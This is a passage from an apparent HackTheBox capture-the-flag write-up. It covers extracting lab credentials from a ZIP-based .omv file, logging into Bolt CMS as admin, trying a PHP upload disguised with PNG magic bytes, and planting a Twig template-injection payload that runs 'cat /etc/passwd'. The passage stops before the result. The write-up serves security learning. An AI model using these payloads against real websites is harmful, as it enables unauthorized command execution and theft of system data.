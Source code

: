 It looks like `.omv` files are ZIP files:

```
$ file bolt-administration.omv
bolt-administration.omv: Zip archive data, at least v2.0 to extract, compression method=deflate
```

Let's look at the contents of the ZIP archive:

```
$ unzip bolt-administration.omv
Archive:  bolt-administration.omv
  inflating: META-INF/MANIFEST.MF
  inflating: meta
  inflating: index.html
  inflating: metadata.json
  inflating: xdata.json
  inflating: data.bin
  inflating: 01 empty/analysis
```

Looking at the `xdata.json` file reveals some credentials:

```json
{"A": {"labels": [[0, "Username", "Username", false], [1, "matt@talkative.htb", "matt@talkative.htb", false], [2, "janit@talkative.htb", "janit@talkative.htb", false], [3, "saul@talkative.htb", "saul@talkative.htb", false]]}, "B": {"labels": [[0, "Password", "Password", false], [1, "jeO09ufhWD<s", "jeO09ufhWD<s", false], [2, "bZ89h}V<S_DA", "bZ89h}V<S_DA", false], [3, ")SQWGm>9KHEA", ")SQWGm>9KHEA", false]]}, "C": {"labels": []}}
```

Credentials:

```
matt@talkative.htb:jeO09ufhWD<s
janit@talkative.htb:bZ89h}V<S_DA
saul@talkative.htb:)SQWGm>9KHEA
```

None of the credentials work for Rocket.Chat hosted at `http://talkative.htb:3000/home`.

### Bolt CMS (Port `80`)

Using any of the credentials on the Bolt CMS hosted at `http://talkative.htb/bolt/login` displays the message "Authentication request could not be processed due to a system problem." Trying the username `admin` and the first password (`jeO09ufhWD<s`) works and signs us in.

Going to the [file manager](http://talkative.htb/bolt/filemanager/files?path=/stock) and trying to upload a file ending in `.php` doesn't work. Trying some more advanced techniques (appending a PNG's magic bytes with `printf "\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[<?php phpInfo(); ?>" > exploit_test.png.php`) of hiding the fact that we are uploading a PHP file also doesn't work.

After some searching online, we learning that Bolt CMS ues the [Twig](https://twig.symfony.com/) templating engine. There are some example payloads on the [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig) GitHub page. We should be able to use `{{['cat\x20/etc/passwd']|filter('system')}}` to run commands.

We can click on "File management" then "View & edit templates" and navigate to the `/base-2021/index.twig` file. Presumably, this is the template used on the main page of the website. Inside the main block we can paste our payload (`{{['cat\x20/etc/passwd']|filter('system')}}`) and test if it works:
